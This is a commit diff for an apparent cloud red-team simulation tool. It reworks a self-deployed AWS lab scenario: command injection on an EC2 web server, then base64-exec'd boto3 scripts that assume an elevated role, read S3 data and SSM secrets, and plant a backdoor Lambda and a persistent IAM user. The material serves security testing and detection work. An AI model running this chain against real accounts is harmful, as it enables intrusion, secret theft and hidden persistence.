

Scenario 8: Escalation-first flow and web server naming
- Web server role: only sts:AssumeRole (no S3, SSM, Lambda); elevated role has S3, SSM, Lambda, PassRole, IAM user
- Driver: RCE then single AssumeRole script that performs list S3, read S3, get SSM, create Lambda, create IAM user with elevated credentials
- Title: EC2 RCE -> AssumeRole privilege escalation -> S3, SSM, Lambda -> persistence
- Replace 'victim' with 'web server' in user-facing text (scenario_8.py, SCENARIO.md, diagram)
- Update SCENARIO.md and SVG/PNG diagram for new flow and sequence

Made-with: Cursor

diff --git a/scenarios/scenario_8/scenario_8.py b/scenarios/scenario_8/scenario_8.py
@@ -1,6 +1,6 @@
 """
-COBRA Scenario 8: Vulnerable web app (command injection) -> EC2 RCE -> S3, SSM, Lambda persistence.
-Two EC2s: victim (vulnerable app + IAM role), attacker (runs exploit via curl to victim).
+COBRA Scenario 8: Vulnerable web app (command injection) -> EC2 RCE -> AssumeRole privilege escalation -> S3, SSM, Lambda -> persistence.
+Two EC2s: web server (vulnerable app + IAM role with AssumeRole only), attacker (runs exploit via curl to web server).
 """
 import base64
 import json
@@ -15,10 +15,10 @@ from tqdm import tqdm
 from core.helpers import generate_ssh_key, loading_animation
 
 
-def _run_via_attacker(attacker_ip, victim_ip, cmd, key_path="./id_rsa"):
-    """Run a command on the victim by SSH to attacker and curling the vulnerable app."""
+def _run_via_attacker(attacker_ip, web_server_ip, cmd, key_path="./id_rsa"):
+    """Run a command on the web server by SSH to attacker and curling the vulnerable app."""
     encoded = quote(cmd, safe="")
-    url = f"http://{victim_ip}:8000/?cmd={encoded}"
+    url = f"http://{web_server_ip}:8000/?cmd={encoded}"
     ssh_cmd = (
         f'ssh -o StrictHostKeyChecking=accept-new -i {key_path} ubuntu@{attacker_ip} '
         f'"curl -s \\"{url}\\""'
@@ -35,7 +35,7 @@ def _run_via_attacker(attacker_ip, victim_ip, cmd, key_path="./id_rsa"):
 def scenario_8_execute(manual=False):
     print("-" * 30)
     print(colored(
-        "Executing Scenario 8: Vulnerable web app (command injection) -> EC2 RCE -> S3, SSM, Lambda persistence",
+        "Executing Scenario 8: Vulnerable web app (command injection) -> EC2 RCE -> AssumeRole privilege escalation -> S3, SSM, Lambda -> persistence",
         color="red",
     ))
     loading_animation()
@@ -85,7 +85,7 @@ def scenario_8_execute(manual=False):
         print(colored(f"Invalid JSON in output file: {e}. Check that 'pulumi stack output --json' runs correctly.", color="red"))
         raise SystemExit(1) from e
 
-    victim_ip = data["Web Server Public IP"]
+    web_server_ip = data["Web Server Public IP"]
     attacker_ip = data["Attacker Server Public IP"]
     bucket_name = data["Bucket Name"]
     bucket_key = data["Bucket Key"]
@@ -106,84 +106,26 @@ def scenario_8_execute(manual=False):
     if manual:
         print(colored("Lab ready. SSH to attacker and run exploit manually.", color="green"))
         print(colored(f"  ssh -i ./id_rsa ubuntu@{attacker_ip}", color="cyan"))
-        print(colored(f"  curl \"http://{victim_ip}:8000/?cmd=id\"", color="cyan"))
+        print(colored(f"  curl \"http://{web_server_ip}:8000/?cmd=id\"", color="cyan"))
         return
 
-    # --- Attack steps (from attacker EC2, curling victim app) ---
+    # --- Attack steps: RCE then AssumeRole -> S3, SSM, Lambda, IAM user (all with elevated role) ---
     print("-" * 30)
-    print(colored("RCE check: run id on victim", color="red"))
+    print(colored("RCE check: run id on web server", color="red"))
     loading_animation()
-    rce_out = _run_via_attacker(attacker_ip, victim_ip, "id")
+    rce_out = _run_via_attacker(attacker_ip, web_server_ip, "id")
     print(colored(f"  Output: {rce_out[:200]}", color="green"))
 
     print("-" * 30)
-    print(colored("List S3 buckets (using victim instance role)", color="red"))
-    loading_animation()
-    list_cmd = (
-        "python3 -c \"import boto3,json; "
-        "b=boto3.client('s3').list_buckets()['Buckets']; "
-        "print(json.dumps([x['Name'] for x in b]))\""
-    )
-    list_out = _run_via_attacker(attacker_ip, victim_ip, list_cmd)
-    print(colored(f"  Buckets: {list_out[:300]}", color="green"))
-
-    print("-" * 30)
-    print(colored("Read S3 object (sensitive data)", color="red"))
-    loading_animation()
-    read_cmd = (
-        f"python3 -c \"import boto3; "
-        f"c=boto3.client('s3'); "
-        f"r=c.get_object(Bucket='{bucket_name}', Key='{bucket_key}'); "
-        f"print(r['Body'].read().decode())\""
-    )
-    read_out = _run_via_attacker(attacker_ip, victim_ip, read_cmd)
-    print(colored(f"  Content: {read_out[:200]}", color="green"))
-
-    print("-" * 30)
-    print(colored("Retrieve SSM Parameter Store secret", color="red"))
-    loading_animation()
-    ssm_cmd = (
-        f"python3 -c \"import boto3; "
-        f"c=boto3.client('ssm', region_name='{region}'); "
-        f"r=c.get_parameter(Name='{ssm_name}', WithDecryption=True); "
-        f"print(r[\\\"Parameter\\\"][\\\"Value\\\"])\""
-    )
-    ssm_out = _run_via_attacker(attacker_ip, victim_ip, ssm_cmd)
-    print(colored(f"  Secret: {ssm_out[:100]}", color="green"))
-
-    print("-" * 30)
-    print(colored("Create Lambda function for persistence", color="red"))
-    loading_animation()
-    # Inline script that creates a minimal Lambda (run on victim via exec(base64.decode))
-    lambda_script = f"""
-import boto3, zipfile, io
-code = b'def handler(event, context): return {{"statusCode": 200}}'
-buf = io.BytesIO()
-with zipfile.ZipFile(buf, 'w', zipfile.ZIP_DEFLATED) as z:
-    z.writestr('index.py', code.decode())
-buf.seek(0)
-boto3.client('lambda', region_name='{region}').create_function(
-    FunctionName='cobra-s8-backdoor',
-    Runtime='python3.11',
-    Role='{lambda_role_arn}',
-    Handler='index.handler',
-    Code={{'ZipFile': buf.read()}}
-)
-print('Lambda created')
-"""
-    lambda_b64 = base64.b64encode(lambda_script.strip().encode()).decode()
-    lambda_cmd = f"python3 -c \"import base64; exec(base64.b64decode('{lambda_b64}').decode())\""
-    lambda_out = _run_via_attacker(attacker_ip, victim_ip, lambda_cmd)
-    print(colored(f"  Result: {lambda_out[:150]}", color="green"))
-
-    # --- Privilege escalation: AssumeRole from victim EC2, then sensitive data + persistence ---
-    print("-" * 30)
-    print(colored("AssumeRole (privilege escalation from victim EC2)", color="red"))
+    print(colored("AssumeRole (privilege escalation from web server EC2) -> S3, SSM, Lambda, IAM user", color="red"))
     loading_animation()
     escalation_script = f"""
-import boto3
+import boto3, zipfile, io
 role_arn = '{elevated_role_arn}'
+bucket_name = '{bucket_name}'
+bucket_key = '{bucket_key}'
 ssm_name = '{ssm_name}'
+lambda_role_arn = '{lambda_role_arn}'
 region = '{region}'
 sts = boto3.client('sts')
 resp = sts.assume_role(RoleArn=role_arn, RoleSessionName='cobra-s8-escalation')
@@ -194,9 +136,27 @@ session = boto3.Session(
     aws_session_token=creds['SessionToken'],
 )
 print('AssumeRole: success')
+s3 = session.client('s3')
+buckets = s3.list_buckets()['Buckets']
+print('Buckets:', [x['Name'] for x in buckets])
+r = s3.get_object(Bucket=bucket_name, Key=bucket_key)
+print('S3 content:', r['Body'].read().decode()[:200])
 ssm = session.client('ssm', region_name=region)
 p = ssm.get_parameter(Name=ssm_name, WithDecryption=True)
-print('Secret (assumed role):', p['Parameter']['Value'])
+print('Secret:', p['Parameter']['Value'])
+code = b'def handler(event, context): return {{"statusCode": 200}}'
+buf = io.BytesIO()
+with zipfile.ZipFile(buf, 'w', zipfile.ZIP_DEFLATED) as z:
+    z.writestr('index.py', code.decode())
+buf.seek(0)
+session.client('lambda', region_name=region).create_function(
+    FunctionName='cobra-s8-backdoor',
+    Runtime='python3.11',
+    Role=lambda_role_arn,
+    Handler='index.handler',
+    Code={{'ZipFile': buf.read()}}
+)
+print('Lambda created')
 iam = session.client('iam')
 try:
     iam.create_user(UserName='cobra-s8-persist')
@@ -207,10 +167,10 @@ print('IAM user created, KeyId:', ak['AccessKey']['AccessKeyId'])
 """
     esc_b64 = base64.b64encode(escalation_script.strip().encode()).decode()
     esc_cmd = f"python3 -c \"import base64; exec(base64.b64decode('{esc_b64}').decode())\""
-    esc_out = _run_via_attacker(attacker_ip, victim_ip, esc_cmd)
-    for line in esc_out.split("\n")[:5]:
+    esc_out = _run_via_attacker(attacker_ip, web_server_ip, esc_cmd)
+    for line in esc_out.split("\n"):
         if line.strip():
-            print(colored(f"  {line.strip()}", color="green"))
+            print(colored(f"  {line.strip()[:300]}", color="green"))
 
     print("-" * 30)
     print(colored("Scenario 8 executed successfully!", color="green"))

diff --git a/scenarios/scenario_8/infra/__main__.py b/scenarios/scenario_8/infra/__main__.py
@@ -79,24 +79,7 @@ elevated_role = aws.iam.Role(
     ),
 )
 
-elevated_role_policy = json.dumps({
-    "Version": "2012-10-17",
-    "Statement": [
-        {"Effect": "Allow", "Action": ["ssm:GetParameter", "ssm:GetParameters"], "Resource": "*"},
-        {
-            "Effect": "Allow",
-            "Action": ["iam:CreateUser", "iam:CreateAccessKey", "iam:AttachUserPolicy", "iam:GetUser"],
-            "Resource": f"arn:aws:iam::{current.account_id}:user/cobra-s8-*",
-        },
-    ],
-})
-aws.iam.RolePolicy(
-    "elevated-role-policy",
-    role=elevated_role.name,
-    policy=elevated_role_policy,
-)
-
-def victim_policy_document(lambda_role_arn, elevated_role_arn):
+def elevated_role_policy_document(lambda_role_arn):
     return json.dumps({
         "Version": "2012-10-17",
         "Statement": [
@@ -104,6 +87,24 @@ def victim_policy_document(lambda_role_arn, elevated_role_arn):
             {"Effect": "Allow", "Action": ["ssm:GetParameter", "ssm:GetParameters"], "Resource": "*"},
             {"Effect": "Allow", "Action": ["lambda:CreateFunction", "lambda:GetFunction"], "Resource": "*"},
             {"Effect": "Allow", "Action": "iam:PassRole", "Resource": lambda_role_arn},
+            {
+                "Effect": "Allow",
+                "Action": ["iam:CreateUser", "iam:CreateAccessKey", "iam:AttachUserPolicy", "iam:GetUser"],
+                "Resource": f"arn:aws:iam::{current.account_id}:user/cobra-s8-*",
+            },
+        ],
+    })
+
+aws.iam.RolePolicy(
+    "elevated-role-policy",
+    role=elevated_role.name,
+    policy=lambda_exec_role.arn.apply(elevated_role_policy_document),
+)
+
+def victim_policy_document(elevated_role_arn):
+    return json.dumps({
+        "Version": "2012-10-17",
+        "Statement": [
             {"Effect": "Allow", "Action": "sts:AssumeRole", "Resource": elevated_role_arn},
         ],
     })
@@ -111,9 +112,7 @@ def victim_policy_document(lambda_role_arn, elevated_role_arn):
 victim_policy = aws.iam.RolePolicy(
     "victim-policy",
     role=victim_role.name,
-    policy=pulumi.Output.all(lambda_exec_role.arn, elevated_role.arn).apply(
-        lambda t: victim_policy_document(t[0], t[1])
-    ),
+    policy=elevated_role.arn.apply(victim_policy_document),
 )
 victim_profile = aws.iam.InstanceProfile("victim-profile", role=victim_role.name)
 

diff --git a/scenarios/scenario_8/SCENARIO.md b/scenarios/scenario_8/SCENARIO.md
@@ -1,4 +1,4 @@
-# Scenario 8: Vulnerable Web App (Command Injection) -> EC2 RCE -> S3, SSM, Lambda, AssumeRole Escalation, and Persistence
+# Scenario 8: Vulnerable Web App (Command Injection) -> EC2 RCE -> AssumeRole Privilege Escalation -> S3, SSM, Lambda -> Persistence
 
 ## 1. Overview
 
@@ -6,20 +6,20 @@
 
 This scenario demonstrates a realistic cloud attack chain:
 
-1. **Entry:** A web application on an EC2 instance accepts user input (e.g. a "command" or "query" parameter) and runs it on the server **without sanitization**, leading to **command injection** and **remote code execution (RCE)**.
-2. **Lateral use of identity:** The victim EC2 has an **IAM instance profile**. Once the attacker has RCE (a "shell" via the vulnerable app), they run **boto3** on the victim host to use the instance role credentials and access other AWS services.
-3. **Impact:** The attacker lists and reads **S3** data, retrieves **SSM Parameter Store** secrets, and creates a **Lambda function** for **persistence**. Then they perform **privilege escalation** by calling **STS AssumeRole** from the victim EC2 to assume an elevated IAM role, use that role to read the same SSM secret (demonstrating escalated access), and create an **IAM user** with access keys for **long-term persistence** in the account.
+1. **Entry:** A web application on an EC2 instance (the **web server**) accepts user input (e.g. a "command" or "query" parameter) and runs it on the server **without sanitization**, leading to **command injection** and **remote code execution (RCE)**.
+2. **Privilege escalation:** The web server has an **IAM instance profile** with **only** `sts:AssumeRole` permission (no direct S3, SSM, or Lambda access). Once the attacker has RCE, they use the web server's credentials to call **STS AssumeRole** and assume an **elevated IAM role**.
+3. **Impact:** Using the **assumed (elevated) role** credentials, the attacker retrieves the **SSM Parameter Store** secret, reads **S3** sensitive data, creates a **Lambda function** for persistence, and creates an **IAM user** with access keys for **long-term persistence** in the account.
 
 It helps organizations evaluate:
 
 - Application security (input validation, secure coding).
-- Least privilege for EC2 roles (S3, SSM, Lambda, and which roles they can assume).
+- Least privilege for EC2 roles (web server has only AssumeRole; sensitive actions require the elevated role).
 - Detection of credential use from a compromised instance, AssumeRole abuse, and access to sensitive resources.
 
 ### Who would use it and why?
 
 - **Security and red teams:** To run a controlled attack simulation and validate that security controls (WAF, CSPM, detection rules) catch or block the behavior.
-- **Engineers evaluating COBRA:** To see a full chain (web vuln -> RCE -> cloud API abuse -> AssumeRole escalation -> persistence) using two EC2s (victim + attacker) and common AWS services (S3, SSM, Lambda, IAM).
+- **Engineers evaluating COBRA:** To see a full chain (web vuln -> RCE -> AssumeRole escalation -> S3, SSM, Lambda, persistence) using two EC2s (web server + attacker) and common AWS services (S3, SSM, Lambda, IAM).
 
 ---
 
@@ -40,7 +40,7 @@ It helps organizations evaluate:
 ### Dependencies
 
 - Same as the main COBRA tool: `pulumi`, `pulumi_aws`, `pulumi_random`, `termcolor`, `tqdm`, etc. (see `requirements.txt`).
-- The victim EC2 user data installs **Flask** and **boto3** to run the vulnerable app and abuse the instance role.
+- The web server EC2 user data installs **Flask** and **boto3** to run the vulnerable app; the instance role has only **AssumeRole** (elevated role has S3, SSM, Lambda, IAM).
 
 ---
 
@@ -54,14 +54,14 @@ It helps organizations evaluate:
    python3 cobra.py launch --simulation
    ```
 
-   When prompted, select **8** (Vulnerable web app (command injection) -> EC2 RCE -> S3, SSM, Lambda, AssumeRole escalation, persistence).
+   When prompted, select **8** (Vulnerable web app (command injection) -> EC2 RCE -> AssumeRole privilege escalation -> S3, SSM, Lambda -> persistence).
 
    The tool will:
 
    - Generate an SSH key (if needed).
    - Deploy the Pulumi stack `cobra-scenario-8` (two EC2s, S3 bucket, SSM parameter, Lambda execution role, elevated IAM role).
    - Wait for instances and the vulnerable app to be ready.
-   - SSH to the **attacker** EC2 and send HTTP requests to the **victim** app to run: RCE check, S3 list, S3 read, SSM get, Lambda create, then AssumeRole (privilege escalation), get SSM secret with assumed role, and create IAM user for persistence.
+   - SSH to the **attacker** EC2 and send HTTP requests to the **web server** app to run: RCE check, then AssumeRole (privilege escalation); with the assumed role, list S3, read S3 object, get SSM secret, create Lambda, and create IAM user for persistence.
 
 2. **Launch in manual mode (you run the attack steps yourself):**
 
@@ -69,11 +69,11 @@ It helps organizations evaluate:
    python3 cobra.py launch --simulation --manual
    ```
 
-   Select **8**. After infra is up, the tool will print the attacker and victim IPs. Then:
+   Select **8**. After infra is up, the tool will print the attacker and web server IPs. Then:
 
    - SSH to the attacker: `ssh -i ./id_rsa ubuntu@<Attacker_Server_Public_IP>`
    - From the attacker, run e.g.: `curl "http://<Web_Server_Public_IP>:8000/?cmd=id"`
-   - Use the same pattern with `cmd=python3 -c "..."` to run boto3 on the victim (list S3, get S3 object, get SSM parameter, create Lambda, assume elevated role, get SSM with assumed role, create IAM user). Outputs are in `core/cobra-scenario-8-output.json` for bucket name, SSM parameter name, Lambda role ARN, and elevated role ARN.
+   - Use the same pattern with `cmd=python3 -c "..."` to run boto3 on the web server: first assume the elevated role (from `core/cobra-scenario-8-output.json`), then with the assumed-role session list S3, get S3 object, get SSM parameter, create Lambda, and create IAM user. Outputs are in `core/cobra-scenario-8-output.json` for bucket name, SSM parameter name, Lambda role ARN, and elevated role ARN.
 
 3. **Check stack status:**
 
@@ -98,34 +98,32 @@ It helps organizations evaluate:
 | Status | `python3 cobra.py status --scenario cobra-scenario-8` | None |
 | Destroy | `python3 cobra.py destroy --scenario cobra-scenario-8` | None |
 
-**Manual attack steps (from attacker EC2):** After SSH to the attacker instance, you run HTTP requests against the victim app. The app takes a `cmd` query parameter and runs it on the victim (command injection).
+**Manual attack steps (from attacker EC2):** After SSH to the attacker instance, you run HTTP requests against the web server app. The app takes a `cmd` query parameter and runs it on the web server (command injection).
 
 | Step | Sample command (input) | Expected output |
 |------|------------------------|-----------------|
-| RCE check | `curl "http://<Victim_IP>:8000/?cmd=id"` | `uid=0(root) gid=0(root) groups=0(root)` (or similar) |
-| Run arbitrary command on victim | `curl "http://<Victim_IP>:8000/?cmd=whoami"` | `root` |
+| RCE check | `curl "http://<Web_Server_IP>:8000/?cmd=id"` | `uid=0(root) gid=0(root) groups=0(root)` (or similar) |
+| Run arbitrary command on web server | `curl "http://<Web_Server_IP>:8000/?cmd=whoami"` | `root` |
 
-For S3 list/read, SSM get, and Lambda create, the driver uses the same pattern with `cmd=python3 -c "..."` to run boto3 on the victim; resource names (bucket, parameter, role ARN) come from `core/cobra-scenario-8-output.json` after deploy. The **Expected output** block in §4 shows the full automated run.
+The driver runs one script that assumes the elevated role then performs list S3, read S3, get SSM, create Lambda, and create IAM user; resource names (bucket, parameter, role ARN) come from `core/cobra-scenario-8-output.json` after deploy. The **Expected output** block in §4 shows the full automated run.
 
 ### Configurations
 
 - **Stack name:** `cobra-scenario-8` (Pulumi).
 - **Region:** Uses your default AWS region (or the one configured for the CLI).
-- **Ports:** Victim app listens on **8000**; security group allows 22 (SSH) and 8000 from 0.0.0.0/0 for the demo.
+- **Ports:** Web server app listens on **8000**; security group allows 22 (SSH) and 8000 from 0.0.0.0/0 for the demo.
 
 ---
 
 ## 4. Expected Results
 
-- The attacker (from the **attacker EC2**) gains **shell access** (RCE) on the **victim EC2** via the vulnerable web app (command injection).
-- Using the **victim EC2 instance IAM role**, the attacker:
-  - **Lists S3 buckets** in the account.
-  - **Reads sensitive data** from the scenario's S3 bucket (e.g. `sensitive/data.txt`).
-  - **Retrieves secrets** from AWS Systems Manager Parameter Store (e.g. `/cobra-scenario-8/secret`).
+- The attacker (from the **attacker EC2**) gains **shell access** (RCE) on the **web server EC2** via the vulnerable web app (command injection).
+- The **web server instance role** has **only** `sts:AssumeRole` (no direct S3, SSM, or Lambda access).
+- **Privilege escalation:** From the web server, the attacker calls **STS AssumeRole** to assume an **elevated IAM role** (trusted only by the web server role).
+- Using the **assumed (elevated) role** credentials, the attacker:
+  - **Lists S3 buckets** and **reads sensitive data** from the scenario's S3 bucket (e.g. `sensitive/data.txt`).
+  - **Retrieves the secret** from AWS Systems Manager Parameter Store (e.g. `/cobra-scenario-8/secret`).
   - **Creates a Lambda function** (`cobra-s8-backdoor`) for **persistence**.
-- **Privilege escalation:** From the victim EC2, the attacker calls **STS AssumeRole** to assume an **elevated IAM role** (trusted only by the victim role).
-- Using the **assumed role** credentials, the attacker:
-  - **Retrieves the same SSM secret** again (demonstrating escalated access and taking sensitive data).
   - **Creates an IAM user** (`cobra-s8-persist`) with an access key for **long-term persistence** in the account.
 
 ### Expected output
@@ -136,25 +134,15 @@ When you run the scenario (automated mode), you should see output similar to:
 Waiting for EC2 instances and vulnerable app to be ready...
 Loading: 100%|██████████| 100/100 [01:40<00:00,  1.00s/it]
 ------------------------------
-RCE check: run id on victim
-Loading |Warning: Permanently added '100.54.112.52' (ED25519) to the list of known hosts.
-  Output: uid=0(root) gid=0(root) groups=0(root)
+RCE check: run id on web server
+Loading |  Output: uid=0(root) gid=0(root) groups=0(root)
 ------------------------------
-List S3 buckets (using victim instance role)
-Loading |  Buckets: ["cobra-s8-bucket-needed-crane"]
-------------------------------
-Read S3 object (sensitive data)
-Loading |  Content: Sensitive data for COBRA scenario 8 demo.
-------------------------------
-Retrieve SSM Parameter Store secret
-Loading |  Secret: cobra-s8-demo-secret-value
-------------------------------
-Create Lambda function for persistence
-Loading |  Result: Lambda created
-------------------------------
-AssumeRole (privilege escalation from victim EC2)
+AssumeRole (privilege escalation from web server EC2) -> S3, SSM, Lambda, IAM user
 Loading |  AssumeRole: success
-  Secret (assumed role): cobra-s8-demo-secret-value
+  Buckets: ["cobra-s8-bucket-..."]
+  S3 content: Sensitive data for COBRA scenario 8 demo.
+  Secret: cobra-s8-demo-secret-value
+  Lambda created
   IAM user created, KeyId: AKIA...
 ------------------------------
 Scenario 8 executed successfully!
@@ -172,6 +160,6 @@ Scenario executed successfully!
 
 ### Limitations
 
-- The victim app listens on 0.0.0.0:8000; in production, restrict access and harden the app.
+- The web server app listens on 0.0.0.0:8000; in production, restrict access and harden the app.
 - Lambda creation uses a minimal handler; the scenario does not invoke the function or add event sources.
 - On re-run, the IAM user `cobra-s8-persist` may already exist; the create-user step is skipped and a new access key may be added.
